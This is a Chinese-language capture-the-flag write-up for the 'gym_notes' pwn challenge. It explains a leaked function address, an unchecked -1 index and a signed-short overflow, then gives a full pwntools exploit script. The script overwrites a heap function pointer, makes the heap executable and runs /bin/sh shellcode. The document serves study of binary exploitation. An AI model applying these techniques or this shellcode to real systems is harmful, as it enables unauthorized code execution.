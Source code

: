 # gym_notes
题目给出了代码，其中`delNote`可以泄露代码段基地址
```c
void delNote() {
  printf("Function 0x%lx isn't implemented yet..\n", (void*)delNote);
}
```
然后这里仍然存在逻辑漏洞

```c
...
  option++; 
  if(option < 0 || option > lastNoteIndex) {
    printf("Note not found..\n");
    return;
  }
...
```
这里的option我们可以提交为-1, 这样就能修改初始example快
然后仍然存在一个整数溢出漏洞
```c
...
  short nread; 

  printf("Write a note (max. %d characters)\n", MAX_NOTE_SIZE);
  printf("> \n");
  nread = getline(&line, &len, stdin);

  if(nread >= MAX_NOTE_SIZE) {
    printf("Too many characters, adding note failed..\n");
    return;
  }
...
```
可以看到这里的short是有符号的，因此如果我们getline传入的参数大于0x7ffff,则返回的nread就变成了一个负数，这样导致就存在一个任意地址写,但是注意不能包含`\x00`

然后后面直接修改存在堆上的函数列表,调用危险函数修改heap段为rwx,然后在上面写一个`0x18`大小的shellcode最后getshell

exp如下
```python

from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'DEBUG')
context.terminal = ['tmux','splitw','-h']

def slog(name, address): print("\033[40;34m[+]\033[40;35m" + name + "==>" +hex(address) + "\033[0m")

def debug(cmd = 0):
    if cmd == 0:
        gdb.attach(io)
    else:
        gdb.attach(io, cmd)

s   = lambda content : io.send(content)
sl  = lambda content : io.sendline(content)
sa  = lambda content,send : io.sendafter(content, send)
sla = lambda content,send : io.sendlineafter(content, send)
rc  = lambda number : io.recv(number)
ru  = lambda content : io.recvuntil(content)
rcl = lambda : io.recvline()

def show(index):
    sla("> \n", "1")
    sla("> \n", str(index))

def add(content):
    sla("> \n", "2")
    sla("> \n", content)

def delete():
    sla("> \n", "3")

def edit(index, content):
    sla("> \n", "4")
    sla("> \n", str(index))
    sla("> \n", content)

io = process('./gym_notes')
elf = context.binary = ELF('./gym_notes')
delete()
ru("0x")
elf.address += int(rc(12),16) - elf.symbols['delNote']
slog("allowFunctionsExec", elf.symbols['allowFunctionsExec'])

payload = b'a'*1000
edit(-1, payload)

indexOffset = 8
print('cyclic %d' % cyclic_find('biha'))

# overwrite the add_func
payload = flat(
        b'\x01'*0xd68,
        elf.symbols['allowFunctionsExec']
)
# make short to negative number
payload +=((2**15) - len(payload))*b'\x00'
edit(-1, payload)
# set heap excutable
add('got it!')

ru('0x')
heap_rwx = int(rc(12),16) 
slog("heap", heap_rwx)

shellcode = b'\x90\x48\x31\xF6\x56\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x54\x5F\x6A\x3B\x58\x99\x0F\x05'

payload = flat(
        b'\x01'*0xd60,
        shellcode,
        heap_rwx+1          # strcpy cannot be none
)
payload +=((2**15) - len(payload))*b'\x00'
edit(-1, payload)
sla("> \n", "4")
io.interactive()
```




# 赛题
[https://archive.fluxfingers.net/2024/challenges.html](https://archive.fluxfingers.net/2024/challenges.html)
